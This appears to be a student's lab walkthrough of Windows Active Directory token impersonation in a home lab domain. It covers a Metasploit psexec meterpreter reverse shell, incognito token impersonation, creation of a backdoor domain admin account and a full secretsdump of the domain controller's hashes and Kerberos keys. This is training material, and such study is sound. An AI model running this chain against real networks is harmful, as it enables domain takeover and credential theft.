

# Token Impersonation Walkthrough

There are several tools that can do token impersonation: `mimikatz`,
`metasploit/incognito` and others as well. We will use `metasploit` here.
Learning the concept is important, the tools that we use will change over time.

After `metasploit` has started, we use `search psexec` and then pick the module
`exploit/windows/smb/psexec`. We want to use the account `fcastle:Password1` on
`THEPUNISHER` (IP 10.0.2.6), as we have done in one of the early exploits of
the Active Domain section of the course.

```
msf6 > use 24
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.6
rhosts => 10.0.2.6
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     10.0.2.6         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  MARVEL.local     no        The Windows domain to use for authentication
   SMBPass    Password1        no        The password for the specified username
   SMBUser    fcastle          no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.5         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```
The exploit did not run at first until I remembered to switch the antivirus
protection on my Windows user machine off. None of the `target` settings worked
before. After I had switched antivirus live protection off, I immediately got a
`meterpreter` shell with `set target 0` (automatic). We can check that we got
an admin account by entering `shell` and then `whoami` at the Windows command
prompt (`nt authority\system`). We can close the shell again with `<CTRL-C>`,
which brings us back to the `meterpreter` prompt.

To display the available modules we can type `load` and double-tab to show our
options (beyond `incognito`):

```
meterpreter > load 
load bofloader   load extapi      load kiwi        load peinjector  load priv        load sniffer     load unhook      
load espia       load incognito   load lanattacks  load powershell  load python      load stdapi      load winpmem
```

Since we want to elevate our privileges starting from a low-privilege account,
we need to log in as `fcastle`. We can learn about the options of the
`incognito` module with `help` -- see the last part of the output. We will use
`list_tokens` and `impersonate_token` in this section.

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > help

(...)

Incognito Commands
==================

    Command                   Description
    -------                   -----------
    add_group_user            Attempt to add a user to a global group with all tokens
    add_localgroup_user       Attempt to add a user to a local group with all tokens
    add_user                  Attempt to add a user with all tokens
    impersonate_token         Impersonate specified token
    list_tokens               List tokens available under current user context
    snarf_hashes              Snarf challenge/response hashes for every token

For more info on a specific command, use <command> -h or help <command>.
```

We can now list the available tokens with `list_tokens -u` (`-u` for users, `-g`
for groups).

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-2
MARVEL\fcastle
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available
```

To impersonate the user `fcastle` we now simply use the `impersonate_token`
command. We need to use a double-backslash since the backslash between domain
and user name is a special character and has to be "escaped". To verify that we
really have access as `fcastle` we can open a shell and use `whoami` again.

```
meterpreter > impersonate_token MARVEL\\fcastle
[+] Delegation token available
[+] Successfully impersonated user MARVEL\fcastle
meterpreter > shell
Process 6564 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19045.6093]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\fcastle
```

This was the proof-of-principle for a low-privilege account. Now we do the same
for a domain admin account. To begin with, we cancel the shell and go back to
the status before we invoked `incognito`:

```
C:\Windows\system32>whoami
whoami
marvel\fcastle

C:\Windows\system32>^C
Terminate channel 3? [y/N]  y
meterpreter > rev2self
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Then we log in as a domain admin with the credentials
`MARVEL\administrator:P@$$w0rd!`. Once we are logged in, there is a delegate
token for the `administrator` user, too, which we can impersonate as before.

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-3
MARVEL\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-3

Impersonation Tokens Available
========================================
No tokens available
```

Sometimes users may just `Switch user` in Windows instead of properly signing
out. Then their delegate token will still be available for us to impersonate,
therefore we should always list the available tokens.

```
meterpreter > impersonate_token MARVEL\\Administrator
[+] Delegation token available
[+] Successfully impersonated user MARVEL\Administrator
meterpreter > shell
Process 7152 created.
Channel 4 created.
Microsoft Windows [Version 10.0.19045.6093]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\administrator
```

Finally, we create a new user and add it to the domain admins group as a
proof-of-concept.

```
C:\Windows\system32>net user /add hawkeye Password1@ /domain
net user /add hawkeye Password1@ /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.


C:\Windows\system32>net group "Domain Admins" hawkeye /add /domain
net group "Domain Admins" hawkeye /add /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.
```

We can check that we have actually created a new domain admin `hawkeye`, we can
use the account for a secretdump of the domain controller, starting from a new
shell on out attack machine:

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/hawkeye:"Password1@"@10.0.2.15           
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa33f1b26ad2e9952ea75944bcc924a4f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\HYDRA-DC$:aes256-cts-hmac-sha1-96:910b3e434a744a5790265135d0008370e258b4074fdf992ee0c32a55b0ec4b5e
MARVEL\HYDRA-DC$:aes128-cts-hmac-sha1-96:0f007e2f0d818b9859c49398ab22c3ce
MARVEL\HYDRA-DC$:des-cbc-md5:b940ef13f88a4c2c
MARVEL\HYDRA-DC$:plain_password_hex:97c486ca9325694d338fe066379f6619afa955cecb843e6141ac4d16826e01fe5b9c3be6975d03847106fdbcbacbcfb8bd9e1506cc1f3a117f4639a8623170823473773e6d772a11ac144ce6e280504c1448d3c1051d9e50f73d716bf5832c7bb20a2fa63635342c9f386605ec935ebc86432af12e4eb30ef26855ddb4e74a757f1e2a067e948469a0e083b3afa90a58d80ae7f69764cb56940030edbd5b73079b96358a87e8c8d1a09a35dd546151f7334c86396cbb9261555e8a9309549435426bc789c5835ccd7d7e3bac41adeffb96bfcb15d8de2e56b5574e5839f9c32021107af427df480435f146caf57cde26
MARVEL\HYDRA-DC$:aad3b435b51404eeaad3b435b51404ee:03e907748ac23a4099f056285700c278:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd5640372dda77c8cdb6e3bd70eb3f1f7225b94f6
dpapi_userkey:0x3485f28420d853677c510e08cff6f07e313d3ae7
[*] NL$KM 
 0000   65 F2 94 8D 2E 36 01 B1  25 48 91 CE 7C 19 D1 93   e....6..%H..|...
 0010   D6 61 7E CA E3 AF 3B 4F  D0 93 60 B4 ED 18 AE 34   .a~...;O..`....4
 0020   58 5E EA 93 5A A9 1C FC  F3 24 38 D8 8A 97 84 BD   X^..Z....$8.....
 0030   CF D1 B8 6C C9 EA 13 4E  83 59 60 BA EC A3 F4 61   ...l...N.Y`....a
NL$KM:65f2948d2e3601b1254891ce7c19d193d6617ecae3af3b4fd09360b4ed18ae34585eea935aa91cfcf32438d88a9784bdcfd1b86cc9ea134e835960baeca3f461
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:938102c5d3c2c7e1ddc0ed42952f52d2:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:1bc3af33d22c1c2baec10a32db22c72d:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
HnlbLdcDQz:1109:aad3b435b51404eeaad3b435b51404ee:e34cc68a03918b6ce42d0c1014dd7e4d:::
hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:03e907748ac23a4099f056285700c278:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:d4a7b71c57a7c97cbad1ed9306856d4b98374ef9b4720ec1adbd7e85c88656b0
Administrator:aes128-cts-hmac-sha1-96:98786a2cf10ae54b74de80f8d0ff8d20
Administrator:des-cbc-md5:a73462a8dfd5adc7
krbtgt:aes256-cts-hmac-sha1-96:91621739c59f90beed379204f908b936656cadf743fdb48b51c707708ca3ae8b
krbtgt:aes128-cts-hmac-sha1-96:39af7f87188bbb91f9c4b95c728ba0c0
krbtgt:des-cbc-md5:4c2ccb31b35dba1c
MARVEL.local\tstark:aes256-cts-hmac-sha1-96:c0253feb8fa1a0532844adabe1db7b12a0e9c2e12b84d6640ed886025c175b50
MARVEL.local\tstark:aes128-cts-hmac-sha1-96:68727fb995192f9766d6294ffd64080c
MARVEL.local\tstark:des-cbc-md5:f2253d9e1373adcd
MARVEL.local\SQLService:aes256-cts-hmac-sha1-96:7e434c38e06b23841e6764f58a7daaf8ab32c782b98c41e8a0cfe7bea0d00a93
MARVEL.local\SQLService:aes128-cts-hmac-sha1-96:0ad727708ef2aabfe159f71c579c9a0e
MARVEL.local\SQLService:des-cbc-md5:523d2c0ecdea6eba
MARVEL.local\fcastle:aes256-cts-hmac-sha1-96:35f093c1a2aafb4dffbf63201a8a9ec9171a621a3ff90b199bc92273a74d8409
MARVEL.local\fcastle:aes128-cts-hmac-sha1-96:7583c4fe87334691ef5e7fd863f636f9
MARVEL.local\fcastle:des-cbc-md5:4fa7ad454cc78954
MARVEL.local\pparker:aes256-cts-hmac-sha1-96:5fc6b0c6792c9a3b62432eda4a61e5c71efc2c57f5466abea92ac4c16fcae580
MARVEL.local\pparker:aes128-cts-hmac-sha1-96:7693d96d854240b8c654c1f8a86387e1
MARVEL.local\pparker:des-cbc-md5:e3d640734938ec34
HnlbLdcDQz:aes256-cts-hmac-sha1-96:e628b53a8267632f459a6b3df2820c2e954b3ad44f1ac2b64a313f55d4116630
HnlbLdcDQz:aes128-cts-hmac-sha1-96:47d03bcd73c32a9294c87a06b4be38f0
HnlbLdcDQz:des-cbc-md5:1c23ad4623e00249
hawkeye:aes256-cts-hmac-sha1-96:70306b40ac0b9da21903551fa70b3191b61d88749e356b11cbe93721a0d3b471
hawkeye:aes128-cts-hmac-sha1-96:2ee48035a17365b1951d8a8105c917e4
hawkeye:des-cbc-md5:01f758f731b6757c
HYDRA-DC$:aes256-cts-hmac-sha1-96:910b3e434a744a5790265135d0008370e258b4074fdf992ee0c32a55b0ec4b5e
HYDRA-DC$:aes128-cts-hmac-sha1-96:0f007e2f0d818b9859c49398ab22c3ce
HYDRA-DC$:des-cbc-md5:ae5edc5e043e85b5
THEPUNISHER$:aes256-cts-hmac-sha1-96:ddcc3c9b8dc4bac1e836f60ef909cb491342f4b4ed03dff68b2a9ac9e5fccf90
THEPUNISHER$:aes128-cts-hmac-sha1-96:565a3e21b9a72ae1d6f853619e4d7832
THEPUNISHER$:des-cbc-md5:5e4934f8f1fb580d
SPIDERMAN$:aes256-cts-hmac-sha1-96:a521036c562ddfa01bd87fc45e81b1f4d6a0bf674b909e327b3298f94198a67d
SPIDERMAN$:aes128-cts-hmac-sha1-96:b4267987932dc7019749ce01fffaab6c
SPIDERMAN$:des-cbc-md5:801cc729baf72994
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
Exception ignored in: <function Registry.__del__ at 0x7f6e0bb5a160>
Traceback (most recent call last):
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/winregistry.py", line 185, in __del__
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/winregistry.py", line 182, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/examples/secretsdump.py", line 360, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smbconnection.py", line 605, in closeFile
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 1356, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 473, in sendSMB
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 442, in signSMB
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/crypto.py", line 150, in AES_CMAC
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/Cryptodome/Cipher/AES.py", line 229, in new
KeyError: 'Cryptodome.Cipher.AES'
Exception ignored in: <function Registry.__del__ at 0x7f6e0bb5a160>
Traceback (most recent call last):
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/winregistry.py", line 185, in __del__
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/winregistry.py", line 182, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/examples/secretsdump.py", line 360, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smbconnection.py", line 605, in closeFile
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 1356, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 473, in sendSMB
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 442, in signSMB
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/crypto.py", line 150, in AES_CMAC
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/Cryptodome/Cipher/AES.py", line 229, in new
KeyError: 'Cryptodome.Cipher.AES'
```

Another way to verify that we have actually created a new domain admin is to
use the `Server Manager` on `HYDRA-DC`, choose `Tools` and `Active Directory
Users and Computers`, where we find a new user named `hawkeye`.




<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
